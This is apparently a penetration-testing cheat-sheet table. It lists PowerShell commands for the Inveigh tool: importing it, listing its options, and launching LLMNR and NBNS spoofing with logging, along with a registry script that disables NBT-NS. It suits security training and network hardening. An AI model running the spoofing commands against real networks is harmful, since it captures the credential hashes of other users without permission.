 
|                                                                                                                                                                                                               |                                                                                                                         |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- |
| `Import-Module .\Inveigh.ps1`                                                                                                                                                                                 | Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`.                            |
| `(Get-Command Invoke-Inveigh).Parameters`                                                                                                                                                                     | Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`                                                                                                                                                     | Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file.          |
| `.\Inveigh.exe`                                                                                                                                                                                               | Starts the `C#` implementation of `Inveigh` from a Windows-based host.                                                  |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \|foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows hos                                                               |
|                                                                                                                                                                                                               |                                                                                                                         |
